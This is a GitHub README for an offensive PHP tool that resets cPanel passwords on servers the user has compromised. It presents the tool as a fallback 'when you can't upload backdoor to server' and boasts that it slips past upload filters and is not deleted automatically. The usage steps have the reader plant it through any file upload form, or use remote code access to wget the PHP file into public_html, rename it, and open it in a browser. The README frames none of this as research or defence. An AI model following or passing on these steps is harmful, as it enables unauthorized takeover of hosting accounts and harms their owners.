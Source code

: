 # Cpanel Password Reset Tools

[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()
[![undefined](https://img.shields.io/github/v/release/naufalardhani/cpanel-pass-reset.svg)](https://github.com/naufalardhani/cpanel-pass-reset/releases/latest)


An easy tool to reset cpanel password when you can't upload backdoor to server. This tool will be useful only if the password reset feature on cpanel is activated.



<p align="center">
  <img src="https://github.com/naufalardhani/cpanel-pass-reset/blob/master/v2-safari.png" width="700" alt="accessibility text">
</p>


# What are the advantages?
- Can be uploaded to the server without bypass
- It will not be deleted automatically by the server

# How to usage
- You can upload this tool via any file upload form and access it!
- If you have a remote code access, you can write command like this 
1. `cd /public_html`
2. ```wget https://raw.githubusercontent.com/naufalardhani/cpanel-pass-reset/master/web-bassed-v2.php```
3. `mv web-bassed-v2.php cp.php`
4. `Access it site.com/cp.php` 

# Reference
- https://www.naufalardhani.com/2018/10/tutorial-reset-password-cpanel-terbaru.html

# Author
1. Naufal Ardhani
- <a href="http://naufalardhani.com/">Personal Blog</a>
- <a href="https://www.linkedin.com/in/naufalardhani/">Linkedin</a> 

